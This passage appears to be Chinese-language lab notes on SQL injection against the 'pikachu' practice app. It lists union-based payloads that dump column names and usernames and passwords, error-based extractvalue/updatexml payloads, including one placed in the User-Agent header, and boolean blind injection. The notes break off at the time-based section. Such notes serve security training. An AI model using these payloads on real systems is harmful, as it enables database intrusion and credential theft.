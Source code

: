 ```
-1') union select 1,group_concat(column_name) from information_schema.columns where table_schema='pikachu' and table_name='users'#
```

获取隐私字段信息：

```
-1') union select group_concat(username),group_concat(password) from users#
```

![image-20250123073311330](../../_media/image-20250123073311330.png)



### "Insert/update"注入（暂未）

`' and extractvalue(1,concat(0x7e,(database()))) and '1'='1`

### "delete"注入（暂未）

`57+or+updatexml(1,concat(0x7e,database()),0)`

### "http header"注入

抓取该页面的数据包,将user-agent的值改为单引号`'`, 页面显示报错信息代表此处存在注入

将user-agent的值改为`' or updatexml(1,concat(0x7e,database()),0) or '`

### 盲注(base on Boolean)

布尔盲注

```
1' and 1=1#
```

一个个字符进行爆破

```
1' and substr(database(),1,1)='p'#
```

然后也是一样的流程，库名，表名，字段名

### 盲注(base on time)
